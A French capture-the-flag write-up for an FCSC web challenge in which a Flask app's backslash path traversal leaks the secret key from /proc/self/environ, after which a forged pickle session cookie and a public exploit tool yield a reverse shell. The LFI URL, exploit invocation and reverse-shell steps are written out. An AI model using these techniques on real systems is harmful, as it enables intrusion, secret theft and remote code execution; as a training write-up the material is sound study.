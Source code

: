 Old is better than new
=================================

Enoncé
-----------
Dave a récemment récupéré son ancien site de blog qu'il utilisait à l'époque, fonctionnant sur un ordinateur Windows. Avec vos connaissances en sécurité modernes, pouvez-vous découvrir les vulnérabilités qui auraient pu l'exposer à une compromission à l'époque ?

Exploit
------------

Très peu de code dans cette app python : 

.. code-block:: python 

    from flask import Flask, send_from_directory, session
    import ntpath
    import os

    # Act as if we're on Windows (I can't run Windows in Docker, sadly)
    path = ntpath
    _original_join = os.path.join
    os.path.join = lambda *parts: _original_join(*parts).replace("\\", "/")

    app = Flask(__name__)
    app.secret_key = os.environ.get("APP_SECRET")
    PUBLIC_DIR = os.path.join(os.path.dirname(__file__), "public")

    @app.route("/")
    @app.route("/<path:path>")
    def serve(path=None):
        return send_from_directory(PUBLIC_DIR, path or "index.html")

    if __name__ == "__main__":
        app.run(host="0.0.0.0", port=8000)


On peut tout de suite supposer qu'il y a une LFI via le replace de \ en / et l'utilisation de send_from_directory

On trouve rapidement notre LFI : 

.. code-block:: console
    
    https://old-is-better-than-new.fcsc.fr/..\..\..\..\proc\self\environ

On obtient la clé secrète de l'application flask : APP_SECRET=ce9fbd88ac4eec98482b6aaf623adee54060b1ef477c677437a1982fbda0e4ac

On peut maintenant forger des cookies, mais pourquoi faire ? 

Après plusieurs recherches sur werkzeug et flask on tombe sur : 

Dans Flask 0.10 : "Changed default cookie serialization format from pickle to JSON to limit the impact an attacker can do if the secret key leaks."

On se comprend donc qu'il y a une désérialisation via pickle

Puis force de recherche on tombe sur : https://www.reddit.com/r/flask/comments/17d4o1/the_dangers_of_deserializing_pickle_objects_and/?rdt=52911 

Qui indique ce site : https://web.archive.org/web/20141026081720/http://vudang.com/2013/01/python-web-framework-from-lfr-to-rce/ 

Et qui contient : 

.. code-block:: console
    
    Flask / Werkzeug ( by default, flash use werkzeug session API that's why we have it here. ): Flask implicitly calls session unserialization if the config['SECRET_KEY'] is set to some value and the session_cookie_name (default='session') exists in the cookie, even if there is no session handling code in the web app (how nice, attacker can create a backdoor by adding SECRET_KEY to the config file, and the naive user will just think of it as 'important').
    
On va donc utiliser l'exploit proposé dans le Reddit : https://github.com/danghvu/pwp

Dockerfile pour python2 : 

.. code-block:: console
    
    
    FROM python:2.7
    RUN apt-get update && apt-get install -y git curl && apt-get clean
    RUN pip install requests
    COPY . /app

On modifie connback.py pour mettre notre host et notre port de reverse shell

Et on modifie la commande /bin/bash par /get_flag ici : 

.. code-block:: console
    
    shell = subprocess.call(["/get_flag"])

Commande : 

.. code-block:: console
    
    sudo docker build -t test . 
    sudo docker run -it test /bin/bash
    cd app
    python exploit.py ce9fbd88ac4eec98482b6aaf623adee54060b1ef477c677437a1982fbda0e4ac https://old-is-better-than-new.fcsc.fr/

On obtient le flag dans le reverse shell